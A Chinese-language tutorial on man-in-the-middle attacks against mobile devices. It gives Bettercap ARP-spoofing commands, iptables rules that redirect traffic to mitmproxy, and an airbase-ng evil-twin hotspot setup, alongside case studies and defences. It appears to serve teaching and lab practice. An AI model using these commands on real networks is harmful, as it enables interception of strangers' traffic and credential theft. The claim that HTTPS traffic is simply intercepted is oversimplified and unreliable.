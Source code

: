 # 移动端中间人攻击的案例分析

## 1. 技术原理解析

### 1.1 中间人攻击（MITM）概述
中间人攻击（Man-in-the-Middle Attack, MITM）是一种网络安全攻击，攻击者在通信双方之间插入自己，窃取或篡改数据。在移动端，MITM攻击通常利用不安全的网络连接、弱加密协议或应用程序漏洞。

### 1.2 移动端MITM的底层实现机制
移动端MITM攻击的实现机制主要包括以下几个方面：

1. **ARP欺骗**：攻击者通过伪造ARP响应包，将目标设备的流量重定向到攻击者的设备。
2. **DNS欺骗**：攻击者通过伪造DNS响应，将目标域名解析到攻击者控制的IP地址。
3. **SSL/TLS剥离**：攻击者通过拦截和篡改HTTPS请求，将加密连接降级为不安全的HTTP连接。
4. **证书伪造**：攻击者通过伪造SSL/TLS证书，使目标设备信任攻击者的中间人代理。

### 1.3 移动端MITM的变种和高级利用技巧

1. **Wi-Fi热点欺骗**：攻击者创建与合法热点同名的恶意Wi-Fi热点，诱使用户连接。
2. **应用层MITM**：攻击者通过劫持应用程序的API请求，窃取或篡改应用数据。
3. **SSL/TLS中间人**：攻击者利用弱加密算法或证书验证漏洞，进行SSL/TLS中间人攻击。
4. **移动端恶意应用**：攻击者通过分发恶意应用，在用户设备上安装中间人代理。

## 2. 攻击步骤和实验环境搭建指南

### 2.1 实验环境搭建

#### 2.1.1 硬件和软件需求
- 一台运行Kali Linux的计算机（攻击者）
- 一部Android或iOS设备（目标）
- 无线网络环境

#### 2.1.2 工具安装
1. **Kali Linux**：默认包含所需工具。
2. **Bettercap**：用于ARP欺骗和MITM攻击。
   ```bash
   sudo apt-get install bettercap
   ```
3. **Wireshark**：用于网络流量分析。
   ```bash
   sudo apt-get install wireshark
   ```
4. **mitmproxy**：用于HTTP/HTTPS中间人攻击。
   ```bash
   sudo apt-get install mitmproxy
   ```

### 2.2 攻击步骤

#### 2.2.1 ARP欺骗攻击
1. 启动Bettercap：
   ```bash
   sudo bettercap
   ```
2. 扫描网络：
   ```bash
   net.probe on
   ```
3. 选择目标设备：
   ```bash
   set arp.spoof.targets <目标IP>
   ```
4. 启动ARP欺骗：
   ```bash
   arp.spoof on
   ```

#### 2.2.2 SSL/TLS剥离攻击
1. 启动mitmproxy：
   ```bash
   mitmproxy --mode transparent
   ```
2. 配置iptables重定向流量：
   ```bash
   sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
   sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
   ```
3. 在目标设备上访问HTTP/HTTPS网站，mitmproxy将拦截并显示流量。

#### 2.2.3 Wi-Fi热点欺骗
1. 创建恶意Wi-Fi热点：
   ```bash
   airbase-ng -e "合法热点名称" -c 6 wlan0
   ```
2. 配置DHCP服务器：
   ```bash
   dnsmasq -C /etc/dnsmasq.conf
   ```
3. 启动中间人攻击工具（如Bettercap或mitmproxy）。

## 3. 实际命令、代码或工具使用说明

### 3.1 Bettercap命令示例
```bash
# 启动Bettercap
sudo bettercap

# 扫描网络
net.probe on

# 设置ARP欺骗目标
set arp.spoof.targets 192.168.1.100

# 启动ARP欺骗
arp.spoof on

# 启动HTTP/HTTPS嗅探
http.proxy on
https.proxy on
```

### 3.2 mitmproxy命令示例
```bash
# 启动mitmproxy
mitmproxy --mode transparent

# 配置iptables重定向流量
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

### 3.3 Wireshark使用说明
1. 启动Wireshark：
   ```bash
   sudo wireshark
   ```
2. 选择网络接口（如eth0或wlan0）。
3. 开始捕获流量，使用过滤器（如`http`或`tls`）分析特定协议。

## 4. 案例分析

### 4.1 案例一：公共Wi-Fi中的MITM攻击
**场景**：用户在咖啡厅连接公共Wi-Fi，攻击者利用ARP欺骗和SSL/TLS剥离攻击，窃取用户的登录凭证。

**攻击步骤**：
1. 攻击者创建与咖啡厅Wi-Fi同名的恶意热点。
2. 用户连接恶意热点，攻击者启动ARP欺骗和SSL/TLS剥离攻击。
3. 用户访问HTTPS网站时，攻击者拦截并窃取登录凭证。

**防御措施**：
- 使用VPN加密所有流量。
- 避免连接不安全的公共Wi-Fi。
- 启用HTTPS Everywhere浏览器扩展。

### 4.2 案例二：恶意应用中的MITM攻击
**场景**：用户下载并安装了一个恶意应用，该应用在后台启动中间人代理，窃取用户的敏感数据。

**攻击步骤**：
1. 攻击者分发恶意应用，诱使用户安装。
2. 恶意应用在后台启动中间人代理，拦截和篡改应用数据。
3. 攻击者窃取用户的敏感数据（如银行凭证、个人信息）。

**防御措施**：
- 仅从官方应用商店下载应用。
- 定期检查设备上的应用权限。
- 使用移动安全软件检测和阻止恶意应用。

## 5. 总结

移动端中间人攻击是一种严重的安全威胁，攻击者利用各种技术手段窃取或篡改用户数据。通过深入理解攻击原理、掌握攻击步骤和防御措施，可以有效降低移动端MITM攻击的风险。在实际应用中，用户应提高安全意识，采取必要的防护措施，确保移动设备的安全。

---

*文档生成时间: 2025-03-14 21:03:52*
